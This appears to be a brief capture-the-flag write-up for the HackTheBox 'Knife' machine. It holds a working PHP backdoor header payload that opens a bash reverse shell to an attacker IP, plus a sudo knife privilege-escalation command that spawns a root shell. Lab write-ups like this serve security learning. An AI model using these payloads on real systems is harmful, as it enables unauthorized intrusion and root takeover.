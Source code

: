 # Knife 🧭
Names | Details
--------|-----
Source | HTB
Level     | Medium
Os | Linux

**Notes :**




## Gaining Access 😉

- php version 8 is vulnerable
	- exploit on searchsploit
- manual exploit for tty shell



## Maintaining Access 🥷
- sudo -l
- knife can run ruby files
	- /usr/bin/knife run.rb
- `echo "system('/bin/bash')" > run.rb`
- User james may run the following commands on knife: 
    (root) NOPASSWD: /usr/bin/knife
 if you found this, run with sudo
 


## Important commands 🔥
```color
 User-Agentt: zerodiumsystem("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1'");
 ```
	 /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.138/1111 0>&1`
- `echo "system('/bin/bash')" > helo.rb`
- `sudo /usr/bin/knife exec helo.rb`

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- always try to have a tty shell
- jailshell has some limitations


--------------------------------
**By Nibras Muhammed** 🤓🖥️






